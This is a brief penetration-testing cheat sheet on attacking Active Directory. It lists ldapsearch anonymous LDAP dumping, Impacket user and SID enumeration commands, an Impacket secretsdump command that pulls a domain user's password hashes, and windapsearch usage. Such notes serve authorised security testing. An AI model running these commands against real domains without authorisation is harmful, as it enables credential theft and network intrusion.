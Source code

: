 # Active Directory (AD)

{% hint style="info" %}
Ensure additional caution when brute forcing AD as you can disable user accounts due to the Account Lockout Policy
{% endhint %}

#### Anonymous Credential LDAP Dumping

```
ldapsearch -LLL -x -H ldap://<domain fqdn> -b ‘’ -s base ‘(objectclass=*)’
```

#### Impacket GetADUsers.py (Must have valid credentials)

```
GetADUsers.py -all <domain\User> -dc-ip <DC_IP>
```

#### Impacket lookupsid.py

```
/usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0
```

#### Impacket Secretdump

```
python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin
```

#### Windapsearch

https://github.com/ropnop/windapsearch

```
python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U
```

### References:

* PayloadAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise
* Attacking Active Directory: 0 to 0.9: https://zer1t0.gitlab.io/posts/attacking\_ad/
